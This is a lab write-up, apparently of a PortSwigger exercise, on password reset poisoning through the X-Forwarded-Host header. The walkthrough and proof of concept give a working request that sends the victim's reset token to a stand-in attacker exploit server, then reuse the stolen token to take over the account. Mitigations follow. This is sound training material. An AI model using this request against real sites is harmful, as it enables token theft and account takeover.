 
# 11. Exploiting Password Reset via X-Forwarded-Host Header Manipulation

## 2. CVSS Score

**CVSS v3.1 Base Score: 7.8 (High)**
**CWE-346: Origin Validation Error**
**CWE-640: Weak Password Recovery Mechanism**

---

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A07:2021 – Identification and Authentication Failures**

---

## 4. Description of Vulnerability

This lab illustrates an insecure password reset flow where the application supports the `X-Forwarded-Host` HTTP header. An attacker can exploit this by setting the header to their own exploit server domain, causing password reset links to be sent pointing to the attacker-controlled site. This enables interception of the victim’s reset token and subsequent account takeover.

---

## 5. Detailed Explanation of What We Performed

* Observed that password reset links contain unique tokens sent via email.
* Sent a POST `/forgot-password` request with the `X-Forwarded-Host` header set to the attacker’s exploit server domain.
* Triggered a password reset request for the victim user `carlos`.
* Captured the victim’s password reset token from the exploit server’s access log.
* Used the stolen token on the legitimate password reset page to set a new password for the victim.
* Logged in to the victim’s account with the new password to solve the lab.

---

## 6. Step-by-Step Procedure

### Step 1: Intercept Password Reset Request

1. Send a POST request to `/forgot-password` in Burp Repeater.
2. Add the header:

```
X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

3. Change the username parameter to `carlos`.
4. Send the request.

---

### Step 2: Capture Password Reset Token

5. Go to the exploit server’s access log.
6. Locate the GET request containing the victim’s password reset token in the query parameters.
7. Copy the token value.

---

### Step 3: Reset Victim Password Using Stolen Token

8. Open the legitimate password reset link from your email client (without the malicious domain).
9. Replace the `temp-forgot-password-token` parameter value with the stolen token.
10. Load the URL and set a new password for Carlos.

---

### Step 4: Confirm Account Takeover

11. Log in as Carlos using the new password.
12. The lab is solved.

---

## 7. Impact of the Vulnerability

* Allows attackers to intercept password reset tokens by redirecting reset emails.
* Enables full account takeover by setting a new password for the victim.
* Exploits trust in HTTP headers without proper validation.

---

## 8. Recommendations and Mitigations

* Do not rely on user-controllable headers like `X-Forwarded-Host` for generating links.
* Validate and whitelist headers or domains before using them in security-sensitive operations.
* Use absolute URLs with fixed trusted domains in emails.
* Implement token expiration and multi-factor verification for password resets.
* Log and monitor suspicious password reset activities.

---

## 9. References

* [OWASP Password Recovery Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
* [OWASP Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration)
* [PortSwigger Labs - Exploiting X-Forwarded-Host](https://portswigger.net/web-security/access-control/lab-manipulating-host-header)

---

## 10. Proof of Concept

### Malicious Password Reset Request Headers

```
POST /forgot-password HTTP/1.1
Host: target-app
X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded

username=carlos
```

### Sample Exploit Server Access Log Entry

```
GET /forgot-password?temp-forgot-password-token=stolen-token HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

### Using Stolen Token in Legitimate Reset Link

```
https://target-app/my-account/reset-password?temp-forgot-password-token=stolen-token
```

